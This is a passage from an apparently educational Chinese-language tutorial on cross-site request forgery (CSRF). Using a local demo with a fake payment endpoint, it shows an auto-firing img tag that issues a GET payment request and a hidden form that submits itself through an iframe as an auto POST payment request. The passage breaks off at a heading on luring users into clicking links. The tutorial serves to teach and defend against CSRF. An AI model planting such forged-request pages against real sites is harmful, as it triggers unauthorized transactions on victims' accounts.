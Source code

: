 
使用 HTTP-server 起一个 本地端口为 3100 的服务，就可以通过 `http://127.0.0.1:3100/bad.html` 这个链接来访问，CSRF 攻击需要做的就是在正常的页面上诱导用户点击链接进入这个页面  
![](https://segmentfault.com/img/remote/1460000022842879)

点击诱导链接，跳转到第三方的页面，第三方页面自动发了一个扣款的请求，所以在回到正常页面的时候，刷新，发现钱变少了。  
我们可以看到在第三方页面调用 `http://127.0.0.1:3200/pay` 这个接口的时候，Cookie 自动加在了请求头上，这就是为什么 `http://127.0.0.1:3100/bad.html` 这个页面拿不到 Cookie，但是却能正常请求 `http://127.0.0.1:3200/pay` 这个接口的原因。

CSRF 攻击大致可以分为三种情况，自动发起 Get 请求， 自动发起 POST 请求，引导用户点击链接。下面会分别对上面例子进行简单的改造来说明这三种情况

### 自动发起 Get 请求

在上面的 bad.html 中，我们把代码改成下面这样

```
<!DOCTYPE html>
<html>
  <body>
    <img src="http://127.0.0.1:3200/payMoney?money=1000">
  </body>
</html>

```

当用户访问含有这个 img 的页面后，浏览器会自动向自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么会认为这是一个正常的链接。

### 自动发起 POST 请求

上面例子中演示的就是这种情况。

```
<body>
    <div>
        哈哈，小样儿，哪有赚大钱的方法，还是踏实努力工作吧！
        <!-- form 表单的提交会伴随着跳转到action中指定 的url 链接，为了阻止这一行为，可以通过设置一个隐藏的iframe 页面，并将form 的target 属性指向这个iframe，当前页面iframe则不会刷新页面 -->
        <form action="http://127.0.0.1:3200/pay" method="POST" class="form" target="targetIfr">
            <input type="text" >
            <input type="text" >
        </form>
        <iframe ></iframe>
    </div>
</body>
<script>
    document.querySelector('.form').submit();
</script>

```

上面这段代码中构建了一个隐藏的表单，表单的内容就是自动发起支付的接口请求。当用户打开该页面时，这个表单会被自动执行提交。当表单被提交之后，服务器就会执行转账操作。因此使用构建自动提交表单这种方式，就可以自动实现跨站点 POST 数据提交。

### 引导用户点击链接
